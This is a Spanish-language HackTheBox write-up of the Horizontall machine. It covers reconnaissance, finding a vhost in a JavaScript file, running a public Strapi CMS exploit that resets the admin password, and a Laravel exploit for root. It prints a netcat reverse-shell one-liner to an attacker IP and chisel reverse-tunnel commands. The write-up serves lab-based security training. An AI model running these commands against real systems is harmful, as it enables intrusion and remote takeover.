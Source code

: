```yaml
---
layout      : post
title       : "Horizontall - HackTheBox"
author      : elc4br4
image       : /assets/images/HTB/Horizontall-HackTheBox/Horizontall.webp
optimized_image : /assets/images/HTB/Horizontall-HackTheBox/Horizontall.webp
category    : [ htb ]
tags        : [ Linux ]
description: 🚀👨‍🚀En esta máquina Linux de nivel easy obtendré acceso al sistema a través de una vulnerabilidad RCE en Strapi CMS y escalaré privilegios aprovechando una vulnerabilidad explotada a través de Laravel usando chisel🚀👨‍🚀.
---
```


🚀👨‍🚀En esta máquina Linux de nivel easy obtendré acceso al sistema a través de una vulnerabilidad RCE en Strapi CMS y escalaré privilegios aprovechando una vulnerabilidad explotada a través de Laravel usando chisel🚀👨‍🚀.

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

***
**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Enumeración Web](#enumeración).
3. [Explotación](#explotación).
4. [Escalada de Privilegios](#priv-esc).
***

Ya es hora de estar hack asique al liooo a romper la máquina Horizontall!!!!!

![](/assets/images/HTB/Horizontall-HackTheBox/hack.gif)


# Reconocimiento [#](reconocimiento) {#reconocimiento}

Como de costumbre comienzo lanzando la herramienta whichsystem.py para identificar el sistema operativo de la máquina a la que me voy a enfrentar.

Esta herramienta se basa en el TTL (Time To Live).

```html
# Windows --> TTL 128
---------------------
# Linux --> TTL 64
```

```r
❯ whichSystem.py 10.10.11.105

	10.10.11.105 (ttl -> 63): Linux
```

Una vez ya se que me enfrento a una máquina Linux procedo al escaneo de puertos convenvencional con la herramienta nmap.

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Existen solo dos puertos abiertos, el puerto 80 (http) y el puerto 22 ssh.

Pero necesito más información acerca de estos puertos por lo que debo realizar un escaneo un poco más detallado...

```bash
# Escaneo para detectar versiones del servicio que corre en cada puerto
nmap -p80,22 -n -Pn -sCV 10.10.11.105 -oN versiones

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

A continuación dejo en una tabla la información relevante que he extraido del escaneo nmap.

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 22     | SSH      | OpenSSH 7.6p1 |
| 80     | HTTP     | nginx 1.14.0 |

> Dominio horizontall.htb 

Añado el dominio encontrado al archivo /etc/hosts.

# Enumeración Web [#](enumeración) {#enumeración}

Una vez añadido lo siguiente es proceder con la enumeración web, ya que existe el puerto 80 abierto.

Accedo al dominio desde el navegador para ojear un poco la web.

![](/assets/images/HTB/Horizontall-HackTheBox/web1.webp)

Tras investigar un poco no encuentro nada relevante, por lo que decido fuzzear rutas en el servidor, en este caso usaré gobuster.

![](/assets/images/HTB/Horizontall-HackTheBox/gobuster.webp)

Tras fuzzear no encuentro nada interesante por lo que solo se me ocurre fuzzear para encontrar algún vhost, y en esta ocasión lo haré con la herramienta wfuzz.

Pero tampoco encuentro ningún vhost, por lo que vuelvo al navegador y procedo a mirar el código fuente de la web, descubriendo que hay varios archivos .js.

Tras buscar durante un rato encuentro un vhost dentro de uno de los archivos .js

Dentro de la ruta: `http://horizontall.htb/js/app.c68eb462.js`

> api-prod.horizontall.htb

Añado el vhost al archivo /etc/hosts y abro el navegador de nuevo para ver que encuentro.

![](/assets/images/HTB/Horizontall-HackTheBox/web2.webp)

No hay nada más por lo que fuzzeo de nuevo para descubrir rutas en el servidor.

```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                    
=====================================================================

000000128:   200        0 L      21 W       507 Ch      "reviews"                                                                                                                  
000000250:   200        16 L     101 W      854 Ch                   "admin"                                                                                                                    
000001600:   200        0 L      21 W       507 Ch      "Reviews" 
```

Accedo a la ruta admin que seguramente será un login y podría obtener algo de información sobre la web.

![](/assets/images/HTB/Horizontall-HackTheBox/login.webp)


# Explotación [#](explotación) {#explotación}

Puedo ver que estoy ante un cms llamado strapi, por lo que lo primero que haré será buscar alguna vulnerabilidad.

![](/assets/images/HTB/Horizontall-HackTheBox/searchsploit.webp)

Encuentro dos exploits, y no necesito estar autenticado, por lo que uso uno de ellos, en concreto el que esta programado en python.

Este exploit lo que hace es cambiar las credenciales de acceso y me otorgaría acceso al panel de strapi, además de la posibilidad de ejecutar comandos, es decir RCE.

Una vez lo tengo lo ejecuto:

```bash
❯ python3 50239.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjcwODg1MjAzLCJleHAiOjE2NzM0NzcyMDN9.TzMLnnxxwD-dM_EsAHrqjxnC3m-GiBDKf1tRGtc-XsM
```

Aprovechando el RCE que me otorga el exploit, introduzco una reverse shell netcat.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.12 443 >/tmp/f
```

```bash
$>  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.12 443 >/tmp/f
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```

Y porfin consigo acceso al sistema.

![](/assets/images/HTB/Horizontall-HackTheBox/shell.webp)

A continuación actulizo la tty para tener una shell más interactiva y funcional.


# Escalada de Privilegios [#](priv-esc) {#priv-esc}


Lanzo linpeas.sh para encontrar una vía potencial de escalada de privilegios.

![](/assets/images/HTB/Horizontall-HackTheBox/linpeas.webp)

Tras lanzarlo encuentro que el puerto 8000 se encuentra abierto en el sistema, por lo que hago un curl a la ip y al puerto para ver que encuentro.

![](/assets/images/HTB/Horizontall-HackTheBox/laravel.webp)

Descubro que en el puerto 8000 corre Laravel v8 (PHP v7.4.18), por lo que busco si existe alguna vulnerabilidad para escalar privilegios.

Buscando información encuentro el siguiente exploit.

Por lo que lo descargo y lo ejecuto.

![](/assets/images/HTB/Horizontall-HackTheBox/exploit.webp)

Pero me arroja un error al lanzarlo, por lo que decido usar chisel para poder traerme el puerto de la máquina víctima a la mía.

Por lo que primero descargo chisel en mi máquina y luego lo paso a la máquina víctima ya que será necesario ejecutarlo en las dos máquinas.

```bash
# En la máquina atacante

./chisel server --reverse -p 1234
```

```bash
# En la máquina víctima

./chisel client http://10.10.14.12:1234 R:8001:127.0.0.1:8000
```

Una vez ejecutamos los dos comandos ya podremos acceder desde nuestra máquina atacante al puerto 8000 donde se encuentra laravel.

![](/assets/images/HTB/Horizontall-HackTheBox/laravel2.webp)

Ahora ya puedo ejecutar el exploit desde mi máquina atacante.

![](/assets/images/HTB/Horizontall-HackTheBox/root.webp)

![](/assets/images/HTB/Horizontall-HackTheBox/pwned.webp)




